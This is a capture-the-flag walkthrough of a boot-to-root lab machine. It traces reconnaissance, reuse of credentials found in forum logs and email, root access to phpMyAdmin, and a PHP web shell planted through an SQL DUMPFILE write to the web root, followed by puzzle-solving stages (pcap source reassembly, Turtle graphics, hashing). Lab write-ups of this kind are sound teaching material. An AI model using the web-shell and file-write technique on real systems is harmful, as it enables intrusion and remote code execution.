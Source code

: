 # Boot2Root Walkthrough

## 1. Network Setup and Discovery

The analyst configured the virtual machine with a **host-only adapter** to perform internal reconnaissance. An `nmap` scan revealed the presence of a target machine running **HTTP (port 80)** and **HTTPS (port 443)** services.

* **HTTPS**: Returned an empty or default response.
* **HTTP**: Served a default placeholder page.

## 2. Directory Enumeration

Using a common wordlist, a directory fuzzing scan was performed against the HTTP service. The scan revealed the following accessible endpoints:

* `/forum`
* `/phpmyadmin`
* `/webmail`

Both `phpMyAdmin` and `webmail` were login-protected. The analyst therefore focused on exploring the forum.

## 3. Forum Analysis and Credential Discovery

Within the forum, a post by a user contained log snippets from 2015:

```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: session opened for user lmezard
```

The log suggested a failed brute-force attempt using the password `!q\]Ej?*5K5cy*AJ`, followed by a successful CRON job initiated under the `lmezard` user.

The analyst attempted to log in to the forum using the `lmezard` username and the extracted password. Authentication succeeded.

Upon logging in, user settings revealed the email address: `laurie@borntosec.net`.

## 4. Webmail Access and Credential Escalation

An attempt was made to log in to the **webmail** interface using the discovered email and the same password. This login was successful.

An email was found containing database credentials:

**Subject:** DB Access
**From:** [qudevide@mail.borntosec.net](mailto:qudevide@mail.borntosec.net)
**To:** [laurie@borntosec.net](mailto:laurie@borntosec.net)

```
Hey Laurie,

You can’t connect to the databases now. Use:
root/Fg-'kKXBj87E:aJ$

Best regards.
```

## 5. phpMyAdmin Exploitation

Using the credentials `root / Fg-'kKXBj87E:aJ$`, the analyst accessed **phpMyAdmin**.

Within the interface, multiple databases were available. Importantly, the analyst had the ability to **write files to the web root**, enabling remote code execution.

## 6. Web Shell Deployment

A PHP reverse shell was obtained from [revshells.com](https://www.revshells.com/) and converted into hexadecimal format. The payload was then written to the web server’s accessible template directory using SQL:

```sql
SET @bin = 0x[hex of php shell];
SELECT @bin INTO DUMPFILE '/var/www/forum/templates_c/cmd.php';
```

This granted remote code execution capabilities via the web interface. From here, the analyst could either issue individual commands or deploy a reverse shell for further interaction.

## 7. Privilege Escalation and Enumeration

While enumerating the system, the analyst discovered the directory:

```
/home/LOOKATME
```

Inside was a credential file containing:

```
lmezard:G!@M6f4Eatau{sF"
```

These credentials permitted local login as user **lmezard**, although SSH access was not available. Only local shell access was viable from the compromised web shell.

## 8. Binary and File Analysis

Within `lmezard`’s home directory, a file named `fun` was found. This file was transferred to a writable location, downloaded, and analyzed. It was a **tar archive** containing a series of `.pcap` files.

Each `.pcap` contained fragments of **C source code**, embedded within the payloads. A custom Python script was written to reconstruct the complete C file:

```python
import os

def get_key(string):
    tmp = string[len("//file"):]
    digits = ''
    for c in tmp:
        if not c.isdigit():
            break
        digits += c
    return int(digits) if digits else -1

def main():
    path = os.getcwd()
    files = [f for f in os.listdir(path) if os.path.isfile(os.path.join(path, f))]
    map_of_files = {}

    for file in files:
        with open(file, 'r') as f:
            lines = f.readlines()
            if not lines:
                continue
            last_line = lines[-1].strip()
            key = get_key(last_line)
            map_of_files[key] = ''.join(lines) + '\n'

    buffer = ''
    for i in sorted(map_of_files):
        buffer += map_of_files[i]

    print(buffer)

if __name__ == "__main__":
    main()
```

The reconstructed source code was saved as `first.c`, compiled, and executed:

```bash
python3 ./flag02.py > first.c
gcc first.c -o test
./test
```

The output contained the following string:

```
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%
```

The password was then hashed as required:

```bash
echo -n Iheartpwnage | sha256sum
# 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

## 9. Laurie Access

The hashed password, and its plaintext version, were tested against users found in `/home`. It successfully authenticated as **Laurie** via SSH.





## Thor 

### 1. Initial Enumeration

During the post-exploitation phase, the analyst navigated to a directory named `thor`. Within this folder, two files were identified:

* `README`
* `turtle`

The `README` file indicated that completing the challenge would grant access to the user **zaz**.

### 2. Turtle File Analysis

The `turtle` file appeared to contain a set of instructions resembling a command or scripting language. Upon further investigation, the instructions were recognized as commands intended for **Turtle Graphics**—a Python-based drawing library used for educational purposes.

### 3. Visualization and Message Extraction

To interpret the instructions, the analyst wrote a custom script to parse the turtle commands and generate the corresponding graphic. The output of the rendered turtle script was a drawing composed of several capital letters:

* Two **S** characters
* One **A**
* One **H**
* One **L**

Based on the drawing order and instructions, the intended sequence appeared to be:

```
SLASH
```

This string matched the context provided in the `turtle` file, which included the hint:

> *"Can you digest the message? :)"*

The hint implied that the extracted string should be **hashed**, similar to previous steps in the Boot2Root challenge. The SHA-256 hash was attepted, but it did not produce the correct result.

After testing multiple hashing algorithms, it was determined that **MD5** was the intended method. Hashing the string `SLASH` with MD5 produced the following digest:

```
646da671ca01bb5d84dbb5fb2238dc8e
```

This hash served as the **password for user zaz**, allowing access to the next stage of the machine.

### Additional Resources

* [Turtle Graphics Online Interpreter](https://trinket.io/turtle)


